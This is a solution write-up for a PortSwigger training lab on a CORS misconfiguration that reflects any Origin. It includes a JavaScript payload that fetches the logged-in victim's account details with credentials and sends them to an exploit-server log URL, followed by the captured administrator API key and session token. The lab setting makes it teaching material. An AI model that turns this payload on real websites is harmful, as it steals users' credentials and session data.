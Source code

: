 # [Lab: CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

## Lab

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

user controlled value, `Origin` header is reflected:

```http
GET /accountDetails HTTP/1.1
Host: id.web-security-academy.net
Cookie: session=wienersession
Origin: hacked

HTTP/1.1 200 OK
Access-Control-Allow-Origin: hacked
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "BNzCU9XSoCnSN3HYGN4RCAkgTJWud3CH",
  "sessions": [
    "HKo779fRdqTQoChe2Ow9Vz5oKNLG2R2m"
  ]
}
...
```

request from exploit-server:

![analysis.png](./../img/lab-1-analysis.png)

## Solutions

craft a response at exploit-server:

- body:

  ```js
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://id.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://exploit-id.exploit-server.net/log?key='+this.responseText;
  };
  </script>
  ```

deliver exploit to victim => exploit-server's logs:

```http
/log?key={  "username": "administrator",  "email": "",  "apikey": "DXVPpW5NHW51Kyu9ArW0eCgce3HUct9g",  "sessions": [    "KZNTrPrjnSWhV0E9nIdODHExeFaSh1XF"  ]}
```

